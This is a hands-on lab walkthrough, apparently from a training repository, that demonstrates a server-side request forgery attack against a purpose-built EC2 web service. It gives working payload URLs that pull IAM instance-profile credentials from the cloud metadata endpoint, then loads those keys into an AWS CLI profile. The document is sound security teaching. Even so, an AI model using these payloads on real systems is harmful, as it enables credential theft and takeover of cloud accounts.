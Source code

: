 1.  From the console, locate the ec2 instance that was provisioned.

2.  In a seperate browser window, navigate to the web service hosted by the ec2 instance.  

You can find the public IP by clicking on the instance, and going to `Details`, then `Public IPv4 address`.

<b> Make sure that you change the url to use http, as that is how we have configured our security group. 

```script
 http://<public_ipv4_address>/
```

We can see that the web server is running, but it looks like it's expecting a query string.  We need to construct an SSRF payload.

3.  First, let's look at some of the metadata categories available:

```script
 http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/
```

These are all categories of information that the ec2 instance would be able to access during it's day to day actions.

4.  By navigating through the API structure, we can eventually get to credentials.  Paste each url into your browser to work through the API directory structure.  

The instance profile name will be unique to each environment. 

```script
 http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/
 http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials
 http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/{name-of-your-instance-profile}
```

5.  These are the credentials of the instance profile that is being used by the ec2 instance.  By making a profile using these credentials, we will be able to execute AWS API calls using the identity of the ec2 instance instance profile.  

Copy the value of `AccessKeyId` and `SecretAccessKey`, and use it to configure a profile called `ssrf-demo`.

```script
    aws configure --profile ssrf-demo
```

Check that the profile has been configured correctly by executing a get-caller-identity API call.

```script
    aws sts get-caller-identity --profile ssrf-demo
```